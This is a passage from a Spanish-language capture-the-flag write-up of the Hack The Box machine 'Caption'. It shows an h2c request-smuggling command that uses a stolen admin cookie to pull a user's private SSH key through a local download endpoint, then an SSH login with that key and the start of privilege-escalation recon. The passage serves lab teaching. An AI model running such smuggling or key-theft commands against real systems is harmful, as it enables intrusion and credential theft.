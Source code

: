 ```bash
python3 h2csmuggler.py -x http://caption.htb http://caption.htb//download?url=http://127.0.0.1:3923/.cpr/%252fhome%252fmargo%252f.shh%252fid_ecdsa -H 'admin cookie'
```

si no te devuelve la clave y te redirige, es porque la cookie a caducado, por ende debes obtenerla de nuevo

una vez tiene la clave, lo de siempre, primero guárdala en un archivo y:
```bash
chmod 400 id_ecdsa
```
estos archivos deben tener siempre estos permisos para poder funcionar

y nos conectamos:
``` bash
ssh margo@caption.htb -i id_ecdsa
```

y allí ya estaremos en el directorio home con la primera flag de usuario




***Escalada de Privilegios:

haciendo un poco de investigación al rededor, mirando los puertos que están en escucha, nos encontramos de nuevo con varios servicios conocidos y el que nos llama la atención es aquel que vimos en el gitbucket (porque nunca nos sirvió para algo haha) logservice/server.go corriendo en el puerto 9090

```bash
netstat -tulnp
```
<img src="/images/writeup-caption/30.png"/>

si buscamos en los procesos del sistema, y filtramos con el nombre del archivo, veremos quien y como se ejecuta en el sistema:
<img src="/images/writeup-caption/31.png"/>
